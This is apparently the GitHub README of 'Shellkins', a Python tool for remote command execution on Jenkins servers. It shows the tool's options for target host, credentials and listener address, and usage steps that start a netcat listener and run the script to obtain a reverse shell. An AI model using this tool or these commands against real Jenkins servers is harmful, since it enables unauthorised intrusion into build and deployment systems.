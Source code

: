 # Shellkins
[![stars - Shellkins](https://img.shields.io/github/stars/HSNHK/Shellkins?style=social)](https://github.com/HSNHK/Shellkins)
[![forks - Shellkins](https://img.shields.io/github/forks/HSNHK/Shellkins?style=social)](https://github.com/HSNHK/Shellkins) [![GitHub release](https://img.shields.io/github/release/HSNHK/Shellkins?include_prereleases=&sort=semver)](https://github.com/HSNHK/Shellkins/releases/)
[![License](https://img.shields.io/badge/License-MIT-blue)](#license)
[![issues - Shellkins](https://img.shields.io/github/issues/HSNHK/Shellkins)](https://github.com/HSNHK/Shellkins/issues)

[Jenkins](https://en.wikipedia.org/wiki/Jenkins_(software)) Remote Command Execution
> Jenkins is an open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery.
## Usage
```
$ python3 shellkins.py --help
```
```
usage: shellkins.py [-h] [--host HOST] [-u USER] [-p PASS] [--lhost LHOST] [--lport LPORT]

Jenkins Remote Command Execution
github : https://github.com/HSNHK/Shellkins
by Hassan Mohammadi

optional arguments:
  -h, --help            show this help message and exit
  --host HOST           jenkins host address
  -u USER, --user USER  jenkins account username
  -p PASS, --pass PASS  jenkins account password
  --lhost LHOST         local listener address
  --lport LPORT         local listener port
```

## Example

Clone this repository
```
$ git clone https://github.com/HSNHK/Shellkins.git
```
Run a listener (on your machine)
```
$ nc -nlvp 1234
```
Run the script
```
$ python3 shellkins.py --host http://example.com:8080/ --user admin --pass admin --lhost 127.0.0.1 --lport 1234
```

## License

Released under [MIT](/LICENSE) by [@HSNHK](https://github.com/HSNHK).
